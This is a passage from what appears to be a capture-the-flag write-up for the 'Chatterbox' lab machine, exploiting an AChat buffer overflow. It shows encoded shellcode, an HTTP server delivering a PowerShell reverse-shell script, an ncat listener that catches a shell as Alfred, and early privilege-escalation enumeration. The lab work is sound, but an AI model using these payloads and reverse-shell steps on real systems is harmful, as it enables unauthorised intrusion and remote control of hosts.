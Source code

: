```bash
buf =  b""                                                                                                    buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"                                                buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"                                                buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"                                                buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"                                                buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"                                                buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"                                                
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41" 
```
The resulted payload size is `704` bytes, so within the limit. Now we need to add this payload to the exploit. we'll start our listener and http server to server powershell file to target inorder to get the reverse shell.

Running the exploit we get a reverse shell as `Alfred`.
```
python Achat.py
---->{P00F}!
```
```
sudo python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.74 - - [10/Apr/2020 01:02:53] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```
```
sudo rlwrap ncat -lvnp 9001

Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.74.
Ncat: Connection from 10.10.10.74:49158.
Windows PowerShell running as user Alfred on CHATTERBOX
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
chatterbox\alfred
PS C:\users\alfred\desktop> (gc user.txt).substring(0,16)
72290246dfaedb1e
```

## Privilege Escalation
We'll start enumerating the user and possible privesc vectors.
Displaying `Alfred` Account info.
```
PS C:\users\alfred\desktop> net user alfred
User name                    Alfred
Full Name                    
Comment                      
User's comment               
Country code                 001 (United States)
Account active               Yes
Account expires              Never

Password last set            12/10/2017 10:18:08 AM
Password expires             Never
Password changeable          12/10/2017 10:18:08 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
```